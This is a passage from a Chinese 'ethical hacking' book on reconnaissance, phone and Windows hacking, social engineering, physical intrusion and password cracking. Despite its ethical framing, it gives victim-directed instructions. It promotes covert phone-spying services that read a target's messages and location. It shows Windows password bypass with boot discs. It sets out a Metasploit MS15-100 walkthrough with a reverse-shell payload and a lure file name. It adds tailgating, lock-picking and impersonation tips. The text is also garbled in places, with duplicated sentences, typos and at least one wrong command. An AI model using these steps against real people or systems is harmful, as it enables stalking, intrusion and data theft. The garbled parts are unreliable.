某些网络爬虫工具能够镜像网站并下载目标网站上所有公开访问的文件。这使你能够对副本进行离线扫描。你可能会发现有关网站配置和布局、文件和目录的信息、网页的源代码、IT 员工的姓名和电子邮件地址，以及关于代码运行机制的注释。

### 网站

某些网站包含有关不同组织及其员工的信息。只要知道要使用哪些网站，你甚至可以进行人员搜索。例如：

- `www.finance.yahoo.com`
- `www.sec.gov/edgar.shtml`
- `www.uspto.gov`
- `www.zabasearch.com`
- `www.choicepoint.com`

此时的目标不是渗透目标系统，而是本质上要清楚你正在处理的是什么以及对方是谁。

### 网络映射

这是一个搜索公共数据库以发现有关特定网络可用信息的过程。最好的起点是使用在线任何可用的 `Whois` 工具。作为一名伦理黑客，`Whois` 能够让你获得有助于你扫描网络或准备社会工程攻击的信息。你将能够获取与特定互联网域名注册关联的名称、电话号码和地址。`Whois` 还提供目标域的 `DNS` 服务器。

你会发现 `Google Groups` 上公开的私有信息类型之多而感到惊讶。你可以找到域名、用户名和 `IP` 地址。人们倾向于在 `Google Groups` 上分享大量信息，其中一些与系统安全有关。你可以通过访问他们的支持页面请求 `Google` 移除在该网站上发布的此类敏感材料。

### 系统扫描

一旦你开始主动收集有关测试网络的信息，你将开始从恶意黑客的视角来看待系统。从外部来源收集的信息将为你提供整个网络的地图，揭示系统是如何相互连接的。你应该能够看到主机名、`IP` 地址、开放端口、运行的协议和应用程序。

在某些情况下，内部主机也包含在测试范围内。内部主机通常对外部人员隐藏，但测试它们是非常重要的，以防心不满的员工决定通过尝试访问机密信息来对公司报复。记住，如果你决定测试自己的内部主机系统，请先在如 `VirtualBox` 或 `VMware Workstation` 等虚拟环境中进行。

### 主机

扫描并记录那些可以通过互联网从外部访问以及通过内部人员人员访问的主机。从 ping `IP` 地址或主机名开始。你可以使用 `OS` 附带的标准 `ping` 工具，也可以使用可以一次性 ping 多个 `IP` 地址的第三方工具，例如 `NetScan Tools Pro`、`SuperScan` 或 `fping`。

### 开放端口

有很多网络工具可以用于扫描开放端口。这些包括 `OmniPeek`、`Wireshark`、`SuperScan` 等。

在内部进行扫描比在外部更容易。要进行内部扫描，将你的计算机连接到本地网络，运行软件即可开始。要进行外部扫描，只需为你正在使用的计算机分配一个公共 `IP` 地址并将其连接到不在防火墙内的集线器上。

## 评估系统漏洞

一旦你发现了安全方面的潜在漏洞，就是开始测试的时候。然而，在此之前，建议你确认这些差距是否是真实的漏洞。有几个网站和黑客论坛你可以手动搜索，以确定你发现的内容是否存在列表中。sans.org/top20`、`nvd.nist.gov` 和 `cve.mitre.org` 等网站记录了常见的漏洞。

如果你不想花时间手动研究潜在漏洞，可以开始测试。你可以进行手动评估或自动评估。在手动评估中，通过关联恶意黑客可以利用的端口对潜在漏洞进行评估。

自动评估涉及使用测试平台或网络弱点的工具。虽然这些工具让工作变得更容易、更快，但它们大多数只有测试特定系统漏洞的能力。坦地说，漏洞管理系统的进步正在产生能够跨整个网络关联漏洞的工具。

一个非常棒的工具是 `QualysGuard`。它是一个基于云的工具，具有端口扫描和漏洞评估功能。它不是免费的，但如果你想建立业务信誉，它是值得的。如果你正在寻找免费的漏洞扫描器，可以使用 `Rapid7 的 Nexpose`。它可以最多扫描 32 个主机。

## 渗透测试

一旦你发现了主要的安全漏洞，下一步就是渗透系统。你应该能够使用可用的在线工具来利用系统，例如 `Metasploit` (`www.metasploit.com/framework`)。更好，你应该考虑开发你自己的工具。当然，这需要创造力和极度的奉献。

渗透系统后，你能够执行的操作包括：

- 从主机系统获取更多信息。
- 访问网络中相互连接的其他系统。
- 启动和停止特定的服务。
- 获取远程命令行提示符。
- 发起拒绝服务攻击。


获取机密文件的权限。

禁用内置日志安全检查。

执行 SQL 注入攻击。

截屏。

以管理员身份向他人发送电子邮件。

最后，也是重要的一点，上传一个炫耀你成功的文件！

作为一名道德黑客，你的工作是暴露系统漏洞的存在，因此没有必要真的去利用它们并戏弄他人。除非出于某些原因，有必要向管理层展示系统缺陷有多严重。

# 第二部分：黑客攻击

在本书的这一部分中，我们将介绍对各种设备、操作系统、应用程序和网络执行黑客技术的一些方法。请注意，这些信息是作为道德黑客的教育材料编写的，并非用于恶意黑客。尽管如此，让黑客游戏开始吧！

# 第 5 章：如何破解智能手机

下面描述的过程与 Android 手机有关。这是一个简单的过程，涉及下载并使用正确的软件来让破解变得更快、更方便。从受信任的网站下载黑客软件非常重要。大多数人直接去第三方网站，而没有意识到他们的程序可能带有恶意，并损坏你的文件或窃取你的数据。如果你作为一个黑客，最终从第三方下载了黑客软件，结果自己的信息反而被破解，那将是非常危险的，更不用说了。

这种破解程序的某些功能包括：

-   完全匿名 - 目标不会知道他们的手机正在被破解。
-   对所有数据的完全访问 - 受害者手机中的每一条数据都可以被访问，例如短信、视频、文件等。
-   将所有文件下载到你的 PC - 你将能够将任何想要的文件传输到你的设备上。
-   通过互联网远程功能 - 黑客在过程中不需要持有受害者的手机。只需要一个安全的互联网连接。

那么要求是什么呢？只有两点相关内容：

-   黑客和预期目标在整个破解过程中必须连接到互联网。
-   黑客必须知道手机号码的国家代码以及实际电话号码。

#### 指南

你可以使用 `MasterLocate.com`，这是一个在线应用程序，它允许你在无需下载任何软件的情况下破解他人的手机。该工具允许你实时监控目标的 GPS 位置，跟踪他们的短信和 WhatsApp 消息、通话以及 Facebook 活动。有关该应用程序如何运作的更多详情，请访问网站 `MaterLocate.com`。

或者，下载 Android Phone Hacker 工具。

在你的设备上运行该软件。在使用之前，确保你已先激活产品。要激活 Android Phone Hacker 工具，进入 `Help` > `Activate Product`。此时，你需要一个激活码。如果你有一个，点击 `Enter Activation Code`。如果你没有，进入 `Get Activation Code`。

一旦你激活了产品，就会弹出一个对话框。在 `Victim’s Mobile Number` 字段中填写目标的手机号码。在尝试破解之前，确保目标已连接到互联网。

在 `Victim’s Mobile Number` 字段下方，你会看到 `Verify` 按钮。点击它并等待程序连接以及检测目标国家。

在对话框的右侧有一个 `Reports` 部分。使用它来浏览你想从受害者手机中获取任何文件（消息、通话记录和文件）。使用你选择的 `Export Method` 导出所需文件，包括 `.rar` 和 `.zip`。

此工具允许你生成一份从受害者 Android 智能手机上下载的数据的报告。

## 智能手机破解预防技巧

安全存放在口袋或包包内的智能手机仍可能向黑客泄露个人数据，甚至可能被恶意软件感染。破解不需要物理接触目标设备。黑客能够通过看似无害的应用程序或不安全的 Wi-Fi 渗透智能手机。可以采取一些基本步骤来防止智能手机被破解：

-   在不使用时随时锁定手机。确保你有一个强密码，并应该定期更改。如果你平时有忘记密码的问题，请使用锁屏图案。某些手机带有面部识别或语音锁定功能。
-   如果你的智能手机有追踪器，请激活它。这将允许你在手机被盗时在地图上查看手机的位置。追踪器甚至允许远程锁定手机，从而防止黑客轻松访问你的数据。
-   确保更新智能手机固件。如果你的手机设置未启用自动更新，请手动下载更新。
-   永远不要下载来源不明的应用程序。如果你不信任来源，请避免该应用。建议从官方应用商店下载应用程序，因为它们的真实性始终经过验证。在下载任何应用程序之前，确保你阅读了评论和产品描述，以更好地了解你正在处理的内容。
-   在安装任何应用程序之前，检查其权限。不要安装任何要求提交或访问个人信息的应用程序。
-   不要点击来自未知发送者的未经请求的信息中的任何链接。此类信息应立即删除。有些黑客会向潜在受害者发送包含链接的消息，声称来自受信任来源（例如银行）。如果你点击链接，恶意软件将自动安装在手机上并窃取数据。永远不要通过短信下载应用程序，因为黑客发现这是渗透设备的一种非常容易。
-   如果你通过 Wi-Fi 访问互联网，请始终确保你正在使用安全网络。黑客喜欢使用不安全的 Wi-Fi 网络对受害者发起攻击并窃取其数据。

# 第 6 章：如何破解操作系统

在本章中，我们将研究如何破解 Windows 操作系统。黑客有很多选择，每种选择都有其优缺点。这些缺点可以用来保护你的计算机免受潜在黑客的侵害。

## 破解 Windows 操作系统

这里描述的前三种方法可以在黑客物理接触受害者电脑时使用。最后两种方法用于远程访问人的系统。

### 方法 1：使用 Linux CD

如果你不想访问操作系统本身，过程将变得简单得多。使用 Linux Live CD，只需将文件拖入你的 USB 移动硬盘即可。

#### 指南

下载并将 `.iso` Linux 文件刻录到 CD 上。将 CD 放入你想破解的电脑。使用 CD 启动。

当菜单出现时，点击“Try Ubuntu”。这将带你进入桌面设置。

在菜单栏上，进入 `Places` 菜单并点击 `Windows drive`。你将看到 `NTFS` 驱动器。

某些文件可能启用了权限，因此你需要 root 权限。如果你无法复制或查看某些文件，进入 `Applications`，然后选择 `Accessories`，并点击 `Terminal`。终端窗口打开后，输入：

```
sudo nautilus
```

不需要填写任何密码，留空即可。这将让你访问所有文件。


这种方法的问题在于，尽管你可以访问受害者的文件系统，但你将无法访问任何加密文件。如果文件或操作系统使用了 `Bitlocker` 或 `Truecrypt` 进行加密，那么使用这种方法进行破解可能会非常困难。

## 方法 2：使用 Trinity Rescue Kit

这种方法涉及一些命令行操作。按照下面的说明操作，一切都会顺利。

### 操作说明

前往 Trinity Rescue 网站并下载 `.ISO` 文件。将文件刻录到 CD 中。将 CD 插入电脑的光驱器并启动。

启动后，进入主菜单，点击 `Windows Password Resetting`，然后点击 `Interactive Winpass`。

按照屏幕上显示的说明操作。选择要编辑的分区并点击 `Edit User data and Passwords`。

填写正在编辑的账户名称。选择选项 1，`Clear User Password`（清除用户密码）。

完成后，输入感叹号（`!`）退出菜单。

按 `q` 退出 `Winpass` 菜单。

重启电脑，你就可以不需要密码访问计算机了。

### 局限性

与上面的方法 1 一样，如果受害者加密了他们的文件，你使用这种方法将无法取得进展。如果受害者像大多数人一样只加密了某些文件，这种方法就会有效。

## 方法 3：使用 Ophcrack

与前两种方法不同，这种方法将允许你访问所有内容，包括加密文件。这种方法是揭示受害者设置的密码，而不是绕过它。对于设置了 Microsoft 身份账户的 Windows 电脑，它也非常有效。

### 操作说明

下载 `ophcrack` Live CD（Vista 版本在 `Win 7` 和 `8` 电脑上运行最好）。

将软件刻录到 CD 中，并使用它启动受害者的电脑。这可能需要一些时间。

你将看到类似于桌面设置的界面。开始尝试破解用户的密码。或者，回到原始菜单并点击 `Text Mode`（文本模式）开始破解密码。你应该能看到窗口顶部不断弹出的密码。如果软件没有找到密码，它会通知你。

重启并使用获取的密码登录 Windows。

### 局限性

尽管 Ophcrack 能够破解加密的操作系统，但它可能无法破解每一个密码。密码越强、越长越复杂，破解就越困难。

## 方法 4：使用 Metasploit 进行远程破解

在黑客能够远程访问 Windows 操作系统后，微软在 2015 年底被迫发布了一个新补丁。`MS15-100` 漏洞是通过部署 `MCL` 文件被渗透的。黑客为了有效渗透系统，采用多管齐下的方法很重要。攻击中最关键的部分之一是侦察阶段。

Metasploit 是一种允许黑客渗透系统以测试其安全性的工具。它可以用于远程针对系统开发和执行利用代码。下描述的攻击专门针对安装在 `Vista`、`7`、`8` 和 `8.1` 系统上的 Windows Media Center。但为了让其生效，必须向受害者发送 `.mcl` 链接并使其打开。

需要注意的是，这种破解比之前的方法需要更高级的技能。你需要一些 Metasploit 和 Linux 的实用知识。

### 操作说明

第一步是在你的系统上运行 `Kali 2.0` 或更高版本。早版本的 `Kali` 无法胜任。

前往 `Exploit-DB`。在 `Remote Code Execution Exploits`（远程代码执行利用）窗口中，你会看到指定在 `MS Windows Media Center` 下的 `MS15-100` 漏洞。点击它。

你将看到屏幕上出现 Metasploit 代码。这是 Metasploit 框架所需的。将其复制并粘贴到 `Kali` 的一个文本文件中。

向你的 Metasploit 框架添加新模块。除非你使用的是 `Rapid7` 已经向框架添加了新模块的更新版本，否则必须执行此步骤。为新模块命名为 `ms15_100_mcl.rb`。

添加新模块后，运行 Metasploit 并搜索 `New Module`。运行命令：

```
msf > search ms15-100.
```

使用命令加载新模块：

```
msf > use exploit/windows/fileformat/ms15_100_mcl
```

下一步是确定新模块需要哪些要求。

```
Msf > info
```

需要指定两个文件名。第一个是 `.mcl` 文件，命名为 `FILENAME`；第二个是将发送到受害者系统的恶意文件，命名为 `FILE_NAME`。

设置 `.mcl` 文件和恶意文件的名称。恶意文件应该命名为一个会诱导受害者打开的名字。例如，你可以命名为 `worlds_smallest_laptop_ever.mcl`。使用命令：

```
msf > set FILENAME worlds_smallest_laptop_ever.mcl
msf > set FILE_NAME smallest_laptop.exe
```

下一步是使用 Windows Meterpreter 设置有效负载：

```
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > exploit
```

需要发送给受害的文件可以在 `/root/msf4/local/worlds_smallest_laptop_ever.mcl` 找到。

现在 Metasploit 中已创建了 `.mcl` 文件并在网络上打开了共享，文件已准备好发送给受害者。

一旦 Metasploit 中创建了 `.mcl` 文件并在网络上打开了共享，文件就准备好发送给受害者。如果受害者打开了文件会话没有打开，输入：

```
msf > sessions -1
```

一旦 Meterpreter 会话打开，你可以在系统上进行任何操作，特别是如果点击的人是管理员。

# 第 7 章：社会工程

利用社会工程进行攻击的核心是利用每个组织安全中最薄弱的组件——人。换句话说，社会工程学是针对人而非系统的攻击。使用的技术是获得人们的信任，以便恶意利用他们并获取信息。考虑到让一个完全陌生的人信任你所需的胆量和技巧，社会工程学可能是一项非常难以实施的攻击。然而，它是最难防御的攻击，因为每个人都要对自己的安全决策负责。

社会工程学的实施是指恶意黑客伪装成他人以获取其他手段难以获得的信息时。从受害者那里获得的信息可以用于窃取文件、破坏资源、进行欺诈或监视组织。社会工程与物理安全攻击尝试不同，但它们通常结合进行。

社会工程学的示例包括：

- 支持人员：黑客声称需要用户安装软件补丁或更新。他们说服受害者下载软件，然后黑客就能远程访问其系统。
- 产品供应商：黑客伪装成组织依赖特定产品的供应商，例如电话系统或会计软件。他们声需要更新现有系统并请求管理员密码。
- 员工：某些员工可能会假装丢失了进入组织数据中心的证。他们通知安全部门，安全部门给了他们钥匙，结果他们未经授权进入了数字和物理记录。
- 网络钓鱼：犯罪黑客发送带有链接的恶意邮件，触发恶意软件和病毒下载到受害者的计算机。因此他们能够控制系统并窃取数据。


一旦社会工程工程师让其目标目标信任他们，他们就会开始利用这种关系来获取尽可能多的相关信息。这可以通过面对面或电子手段实现，其策略是使用潜在目标最感到舒适的任何通信模式。以下是黑客在社会工程过程中使用的一些策略：

## 通过言语和行为建立信任

熟练的社会工程工程师有许多方法可以获取内部信息。一个优秀的社会工程工程师会狡猾、能言善道，并能够保持对话顺畅进行。另一方面，如果恶意黑客变得过于焦虑或粗心，就可能检测出社会工程攻击。以下是社会工程攻击的一些迹象：

- 对与某人的见面表现得过于友好或热情。
- 谈论组织内的知名人物。
- 吹嘘自己在组织内拥有权威。
- 在被提问时表现得紧张。
- 对不需要的事情进行过度详细的描述。
- 说话像内部人员，但他们实际上是局外人。
- 了解外部人员不应该知道的问题。
- 看起来很忙。
- 问奇怪的问题。

这些都是一个人具有怀恶意图的迹象。当然，一个优秀的社会工程工程师非常擅长隐藏这些迹象。社会工程工程师使用的另一种策略是竭力帮助某人，然后立即向目标寻求帮助。这是社会工程学书籍中最常见且最有效的技巧之一。

另一种常见的技巧被称为“反向社会工程学”。在这种情况下，社会工程工程师会导致特定问题的发生，当目标受害者需要帮助时，他们会像超级英雄一样出现并解决问题。这加深了他们与潜在受害者之间的关系。

社会工程工程师还可能伪造工作证并获得假制服，以便与真实员工融合。组织中的每个人都会认为，既然他们穿得像真人一样，就可以信任他们的信息。

## 钓鱼信息

社会工程工程师喜欢利用技术来实现他们的目标。这让他们的工作变得更容易更有趣。在大多数情况下，他们向目标受害者发送短信或电子邮件，这些看似来自受害者信任的来源。然而，显示的电子邮件地址或 IP 地址可能只是被伪造了。

众所恶意黑客向受害者发送电子邮件请求关键个人信息。电子邮件通常包含一个要求受害者点击的链接。如果发生这种情况，受害者将进入一个看起来专业且可靠的网站。其目的是通过鼓励他们更新用户 ID、社会安全号码和密码来窃取机密信息。此类请求甚至可能通过社交媒体发送，例如 `Facebook` 或 `Twitter`。

另一种使用的策略是向潜在受害者发送大量的电子邮件和垃圾邮件，导致人们可能会降低警备并打开至少一封电子邮件或下载附件。受害者会被欺骗，用机密信息换取某种礼物。

已有许多知名案例，恶意黑客通过电子邮件向受害者发送补丁或软件更新，声称来自经过验证的软件制造商。受害者被骗认为软件是真实的，但它实际上是一个木马程序键盘记录器，甚至是一个允许黑客无限制访问网络的后门。

这些后门使恶意黑客能够直接攻击受害者的系统或将其作为僵尸。僵尸是恶意黑客入侵并用作攻击其他系统的跳板的计算机或系统。社会工程还可以涉及病毒和蠕虫的使用。黑客可以向潜在受害者发送电子邮件，声称是其恋对象或秘密暗慕者。一旦此人打开电子邮件，他们的计算机就会被感染。

最著名的钓鱼策略之一是尼日利亚 419 诈骗。这是社会工程工程师向某人发送电子邮件，声称是富有去世者的亲属或该死者的律师。诈骗者提议，如果他们能帮助他们将死者的资金汇回 `US` 的银行账户，将与目标目标分享遗产（通常是数百万美元）。毫无防备的受害者被要求提供其个人银行账户以及一些支付转账费的资金。如果受害者犯了这种错误，他们的银行账户就会被清空。

让社会工程钓鱼攻击如此有效的原因是追踪攻击来源的困难。在线社会工程工程师是匿名的，并且擅长使用匿名器、代理服务器、`SMTP servers` 和重发器来隐藏他们的踪迹。

## 社会工程防御措施

绝不应低估社会工程工程师。他们有能力操纵天真且未经训练的人员，让他们进入计算机系统。然而，可以采取一些防御措施来保护网络免受社会工程攻击。其中一些措施具有企业性质，主要适用于组织。也有个人可以采取的措施来保护自己。

对于组织来说，我们有严格的组织政策，以及用户意识和培训。

### 严格的组织政策

- 创建各种信息类别或层级，用户仅可以访问某些而非所有级别的信息。信息的分发完全基于“知其所需”原则。
- 建立 ID 系统，所有员工、独立承包商和顾问在受雇时都会发放 ID。
- 确保所有不再为组织工作的员工、承包商和顾问归还其用户 ID。
- 定期更改用户密码。
- 每当发现可疑行为和安全漏洞时立即采取行动。
- 妥善保护私密和专利信息。
- 确保所有进入场地的访客都有官方陪同。

如果要让这些防御措施尽可能有效，告知相关人员并在范围内执行它们至关重要。

### 用户意识和培训

如果组织的员工要能有效防御社会工程攻击，他们必须接受有关如何检测和应对此类威胁的培训。意识是防止社会工程攻击的关键，因此所有参与人员都必须定期参加安全意识计划。

组织必须确保其拥有专门的安全政策，并与其配套的任何意识和培训措施良好对齐。引入具有处理社会工程攻击经验的外部安全顾问也是个好主意。这可能有点贵，但绝对值。

为了建立长期解决方案，必须记住以下几点：

- 安全意识和培训问题不能轻视。这不是开支，而是投资。
- 用户必须持续接受培训，以确保他们的知识不断更新。
- 员工必须将个人和职业信息的安全作为其工作描述的一部分。
- 确保与人们共享的内容是经过定制且受控的。
- 为员工和其他用户建立安全意识计划。
- 并非所有用户都具有技术思维或天赋，因此语言应尽可能非技术化。
- 激励人们报告和防止安全事件。
- 高层管理必须言行一致并以身作则。


## 个人防御策略

- 除非你验证了请求者的身份以及他们需要信息，否则不要向他人提供个人或机密信息。
- 不要点击任何未经请求的电子邮件链接，这些链接通常指向要求更新个人信息的网页。
- 不要将鼠标悬停在任何电子邮件链接上。这看起来可能并无害，但可能会触发恶意软件下载到你的计算机中。如果你安装了反恶意软件，它将能够防止此类漏洞的影响。
- 不要在社交媒体上与他人分享私人信息。社会工程师会尝试通过 Facebook 或 LinkedIn 上的好友请求和连接请求来接触毫无防备的受害者。
- 不要告诉他人你的密码。
- 不要打开来自陌生地址的邮件附件。
- 不要允许陌生人连接到你的无线网络或网络接口。黑客只需要几秒钟就能向你的系统植入木马、恶意软件或网络分析器。

# 第 8 章：物理安全

一个机构花费数百万美元使用先进的数据保护软件来保护其网络，却忘记了堵住其物理漏洞，这意义何在？数据的物理安全往往被轻视，大多数人甚至没有意识到黑客发现从正门溜入是太容易了。

如果恶意黑客能够物理进入建筑或数据中心，他们就可以渗透任何系统或网络。因此，在黑客利用漏洞之前，寻找并修复任何物理安全漏洞是至关重要的。

恶意黑客总是在寻找任何物理安全漏洞。例如：

- 缺乏前台人员来监控人员的进出。
- 缺乏访客签到簿或为访客提供陪同人员。
- 员工未能核实穿着制服的供应商人员或维修人员的身份，这些人声称有权对计算机或复印机进行维修。
- 使用任何人都可以复制的传统钥匙。
- 公共可以进入的电脑房。
- 无法正常关闭的门。
- 随意放置且无人看管笔记本电脑、平板电脑和其他数字设备。
- 未能粉碎敏感信息，而是将其扔进垃圾桶。

这些只是恶意黑客可以轻易利用以获取数据中心物理访问权限的一些漏洞示例。

## 安全计划

如今有许多不同的安全措施，作为一名黑客，你必须弄清楚哪种安全装置保护着你的目标。你还需要计划如何规避和利用这些物理安全措施。

侦察与最终攻击之间的间隔可能是几天甚至几周。执行一次协调良好且成功的物理突破需要时间和精。。这要求黑客具备多样的技能和知识，更不用说耐心、敏捷性、心理警觉性和体能了。

### 影响物理安全的因素

#### 选址与建筑设计

任何想要保护设施的人都必须考虑选择合适的地点。因此，黑客也必须考虑如何绕过边界安全。你必须确定边界是如何受保护的：围栏、障碍物、墙壁、守卫、警犬等。可能还有次级物理安全措施，如访问控制和报警器。

黑客需要了解目标设施物理规划中的任何弱点。例如，一栋建筑可能被围墙环绕，但周围有很多大树，树枝延伸到围墙内部。一个敏捷且体能良好的黑客可以简单地爬树跳过去。

黑客在进入院区后，还需要注意任何内部安全措施。这些可能包括访问控制、入侵检测系统和人员 ID。设施的某些方面也是黑客可以观察、学习和利用的。例如：

- 安全灯的位置。
- 阴影和暗区作为潜在藏身点的存在。
- 垃圾桶的位置，以防需要通过翻垃圾桶获取信息。
- 安全摄像头的布局和盲区。
- 火火器的存在和位置，可用于造成破坏。

#### 访问控制

在谈到物理安全时，访问控制是指权威对物理空间使用的控制。这决定了谁在何时、在何地可以访问什么。大多数设施倾向于使用人员（保安和可能的狗）或某种形式的设备（锁和钥匙）。

黑客必须了解建筑访问控制点的范围。在大多数情况下，进出处有访问控制，但通往房间的内部门呢？一旦通过了正门的安全检查，你可以自由走动吗？如果建筑内部的门需要钥匙解锁，那么必须偷取或复制正确的钥匙。

如果很难获得所需的钥匙副本，那么开锁是另一种替代方案。学习开锁并不那么困难。大多数门锁倾向于弹子销类锁类型，你有一个内芯和一个外芯。要打开门，你所做的就是旋转内芯。如果锁很廉价（例如用于文件柜或药柜的），那么开锁就很容易。

你可以在网上买廉价的开锁工具包，并阅读一些如何开启标准门锁的说明。如果是钥匙进入的门，你可以考虑在战略位置放置间谍摄像头以获取密码。

#### 入侵检测系统

这这种系统旨在扫描网络并监控设施的恶意行为或违反政策的行为。可以通过 `CCTV` 或运动检测器实现。这些系统已经有了进展，设计出了入侵检测与防御系统。这种系统不仅能监控事件，还能防止对网络的攻击。

`CCTV` 摄像头是建筑视频监控的标准。保安坐在控制室里，通过安装在战略位置的摄像头阵列监控每个区域。还可以安装运动传感器以向安全人员警报不受欢迎的入侵者。

大多数 `CCTV` 系统都有一个弱点——盲区。这些是摄像头看不见的区域。任何计划攻击带有 `CCTV` 摄像头的设施的黑客必须首先确切了解这些盲区的位置。摄像头可能是基于网络或无线的。无论何种，都可以侵入摄像头画面并操纵安全人员看到的内容。还可以干扰无线摄像头的信号。

对于黑客来说，理解安全人员在警响时的反应也非常重要。会报警警察吗？门会自动锁并切断逃生路线？了解入侵检测系统的响应可能会为黑客提供优势。

人员身份

大多数机构向其人员发放 ID 证和用户 ID。这让他们更容易地进行日常工作。计算机程序还用于监控创建和修改现有目录及文件的员工身份。员工在限制区域的移动也会被跟踪并保留记录。


伪造 ID 证件或从正式员工那里偷一个可能是可能的。你也可以以访客的身份进入并失去护送。进入限制区域的另一种方法是“尾随（tailgating）”。黑客可以伪装成销售员，假装帮助合法员工把一盘食物带数据中心。大多数人看到这种情况时，因为你手拿满了东西，他们会为你开门。你也可以在吸烟区逗留，并在假装与他们交谈时跟进员工进入建筑。你甚至可以假装在打电话或拄着拐杖，促使员工帮你推开门。

冒充真实的销售人员、技术人员或承包商是进入建筑且不引起怀疑的可靠方法。你只需要一套制服，如果你愿意的话，再弄一辆服务车和一些设备，让自己看起来像真的一样。

# 第 9 章：如何破解密码

大多数人认为拥有密码和用户 ID 对于他们的贵贵信息来说已经足够了。事实是，从安全角度来看，密码的作用非常有限。恶意黑客总是在寻找新方法来破解密码并获取系统和网络的访问权限。

用户可能认为他们使用的密码只有自己知道，但人们永远无法确定。有时出于安全考虑，有必要让另一个人拥有密码。然而，大多数情况下，第三方可能在所有者未察觉的情况下知晓密码。

密码给人们一种虚假的安全感，知道密码并不意味着你被授权使用它。密码漏洞分为两类：组织/用户漏洞和技术漏洞。

## 组织/用户漏洞

此类漏洞包括缺乏任何密码策略或对现有策略的执行力不力。人们倾向于追求便利的生活方式，即他们不需要死记硬背或记住许多不同的密码。如果密码变得太多或太复杂，人们倾向于犯一些低级错误，这为恶意黑客提供了得而易举的机会。

如果你考虑到数字 `0` 到 `9` 和字母表中的 `26` 个字母，可以创建大约三万亿密码组合，每个组合八个字符。然而，大多数人倾向于制作弱密码，只因为它们容易记忆。大多数人选择用来保护数据的密码简直是愚蠢的。例如，`password`、`12345678`、`abcdefgh`，甚至完全没有密码！

作为一个黑客，一些让破解他人密码变得简单的因素包括：

- 易于猜测的密码。
- 极少更改的密码。
- 在不同账户和多个系统中反复使用相同的密码。
- 写在纸上并存储在不安全处的密码。对于那些复杂且难以记忆的密码尤其是如此。

## 技术密码漏洞

一旦黑客能够利用组织漏洞，他们将转向利用技术性漏洞。例如：

- 弱加密方案 - 大多数软件开发人员和供应商倾向于对自己的产品过度信任。他们假设只要加密算法的源代码是保密的，密码就是安全的。这根本不是事实。任何有耐心和有毅力的黑客都能快速破解密码。一旦源代码被破解，黑客往往会在网络上分享它，从而向公众公开。此外，一些工具可以破解任何弱加密，只要你的计算机有足够的计算能力即可。
- 用来存储密码缓存的不安全程序和数据库。
- 未加密且允许大量人员访问的数据库，其中某些人并无权限访问此类信息。
- 在用户在屏幕上输入密码时不隐藏密码的应用程序。

黑客可以利用成千上万种密码漏洞。访问国家漏洞数据库（National Vulnerability Database）可以发现更多可以被利用的漏洞。

## 破解密码的技术工具

在破解密码方面，有传统方法，也有高科技方法。黑客喜欢使用几种非常有效的工具来破解密码。它们包括：

- `Brutus` - 用于破解 `FTP`、`HTTP` 等等的登录密码。
- `Cain and Abel` - 用于破解哈希值、`Windows` 和 `VNC` 密码等更多。
- `Elcomsoft System Recovery` - 使用可启动光盘破解或重置 `Windows` 管理权限和用户密码。
- `Elcomsoft Distributed Password Recovery` - 同时使用成千万台联网计算机破解 `Adobe`、`MS Office`、`Windows`、`iTunes` 等其他类型的密码。它通过使用 GPU 视频加速工具实现更快破解。
- `Ophcrack` - 使用彩虹表（rainbow tables）破解 `Windows` 密码。
- `John the Ripper` - 用于破解哈希过的 `Windows` 和 `LINUX/UNIX` 密码。该破解程序首先采用字典攻击，随后进行穷尽暴力破解攻击。它是目前最流行的密码破解程序之一。
- `Proactive Password Auditor` - 用于对 `NTLM` 和 `LM` 密码哈希运行彩虹表、字典和暴力破解。

这些只是黑客可以用于破解不同系统中各种类型密码的工具的少数示例。了解此类密码破解程序的工作原理非常重要，除非你也理解密码加密是如何发生的，否则将非常困难。

当密码使用单向哈希或加密算法存储在系统中时，就会发生加密。哈希后的密码随后显示为固定长度的加密字符串。从上讲，所有哈希后的密码都应该是不可逆的，因此是不可破解的。此外，像 `LINUX` 中使用的特定密码会被分配一个称为“盐（salt）”的随机值，以产生某种程度的随机性。这防止了使用相同密码的不同人具有相同的哈希值。

密码破解工具的作用是：它获取一组已知的密码，通过哈希算法处理并生成加密哈希。这些加密哈希与从被攻击系统的数据库中提取的原始密码哈希进行比较。这种比较以极快的速度进行，当生成的哈希与数据库中的原始哈希匹配时，游戏就结束了。密码被认为已被破解。


加盐（Salting）是在对密码进行哈希处理之前添加某些信息（“盐”）的过程。这使得密码更难被基础破解算法猜中，因为密码不再是简单的明文形式。例如，用户可能会利用字典中成千上万个英文单词创建一个密码。加密后，会在原始密码中添加一个随机的 32 位盐值。这使得黑客预先计算的哈希值完全失效。黑客现在必须计算每个单词的哈希值，并从 4,294,967,296 种可能性中计算出正确的盐。黑客将面临约 800 万亿次哈希值的可能输入！是的，用户创建的密码可能很简单，但添加盐可以使破解变得变得困难得多。但必须注意的是，加盐只能阻碍依赖哈希的破解工具。如果破解程序依赖于快速输入（例如暴力破解或字典攻击），加盐的效果可能不会那么显著。

## 破解密码

在涉及软件破解密码时，必须注意的第一点之一是密码永远不会以明文形式存储。那样目标太容易攻破，而且无法提供必要的安全性。因此，会应用单向哈希函数。最流行的单向函数是基于 DES 的，被称为 `crypt`。

通常会在哈希值中添加一个盐值，以使算法更加复杂，从而提高对黑客的防御能力。每个哈希值（包括其盐值）都存储在密码文件中，假设即使黑客盗取了文件，他们也无法理解这些哈希值。

当真实用户想要登录账户时，他们必须输入密码。为了验证密码的有效性，密码哈希值与之前存储在文件中的哈希值必须匹配。在身份验证过程中，会从文件中提取原始盐值，将其附加用户输入的任何内容之后，然后将整个字符串通过单向哈希函数。如果用户输入正确的密码，哈希函数生成的输出将与密码文件中存储的内容匹配。整个过程是在无需存储明文密码的情况下完成的。

### 破解密码的方法

破解密码有很多方法。其中一些虽然老旧但出乎意料地依然有效。还有一些涉及使用计算机程序的高级技术。

#### 猜测

这看起来可能有些老派且无效，但你可能会对其效果之大惊讶。可能有成百上千种先进的技术、算法和程序可以破解密码，但在某些时候，简单的解决方案就是你所需要的。猜测涉及使用逻辑，并尝试使用常用密码来破解系统。

大多数用户倾向于认为密码是麻烦且繁琐的。为所有账户/网站记住不同的密码是非常的，因此大多数人简单地选择最容易攻破的目标。他们选择容易记忆、因此容易被猜到的密码。一些最常见的密码包括：

- “password”单词本身。
- 用户的真实姓名。
- 人的用户名/ID。
- 家族成员的名字。
- 最喜欢的食物、颜色、假期去地。
- 宠物的名字。
- 出生日期。

